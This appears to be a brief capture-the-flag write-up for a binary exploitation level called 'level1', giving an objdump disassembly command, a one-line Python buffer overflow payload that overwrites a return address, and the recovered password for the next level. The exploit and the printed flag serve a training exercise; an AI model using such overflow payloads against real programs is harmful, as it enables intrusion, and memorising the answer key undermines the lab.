 # level1

## disassemble

```shell
# objdump --disassemble --demangle --disassembler-options intel bonus0
objdump -dC -M intel level1
```

## exploit

```shell
python2.7 -c 'print("B"*76 + "\x44\x84\x04\x08")' > /tmp/exploit.txt
cat /tmp/exploit.txt - | ./level1
```

## flag

```shell
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
